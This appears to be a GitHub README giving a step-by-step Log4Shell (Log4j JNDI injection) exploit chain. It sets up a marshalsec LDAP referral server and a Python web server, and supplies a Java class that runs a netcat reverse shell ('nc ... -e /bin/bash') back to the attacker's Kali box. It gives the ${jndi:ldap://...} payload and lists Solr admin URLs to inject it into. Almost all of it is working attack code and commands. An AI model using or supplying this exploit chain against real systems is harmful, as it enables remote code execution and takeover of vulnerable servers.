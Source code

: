 # Setting up a Callback Server

First - thank you to SANS who I stole this from.  https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

From a kali box:

```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://{kali_box_ip}:8080/#Log4JCallback"
```

From that kali box in a separate terminal:

```
python -m http.server 8080
```

Separately, on that kali box, in the same directory your webserver is now running in, drop this code into Log4JCallback.java:

```
public class Log4JCallback {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc {kali_box_ip} 8081 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

Now compile that with `javac Log4JCallback.java`, and setup a netcat listener as mentioned in your code:

```
nc -v -l -p 8081
```

Now you've got three listeners setup.  Next you're going to send the message to the vulnerable server - the format is: `${jndi:ldap://{kali_box_ip}:1389/Log4JCallback}`.  The vulnerable server is going to log that jndi string, and Log4J is going to parse it and visit the ldap server on your Kali box at port 1389.  There it will find the marshalsec LDAP server, which will tell it to look for a Java class at a remote location, specifically your Kali box on port 8080.  The class will be requested from your Python webserver on port 8080, and will get executed on load.  That will run the "exec nc" code, calling back with a shell to your listener on port 8081.  You'll see the connections come in - with the last on your netcat port 8081 listener, and that last will be your remote shell.

# Vulnerable Services

## Solr

http://{solr-addr}:8983/solr/admin/cores?anything=${jndi...}
http://{solr-addr}:8983/solr/admin/configs?anything=${jndi...}
http://{solr-addr}:8983/solr/admin/collections?anything=${jndi...}
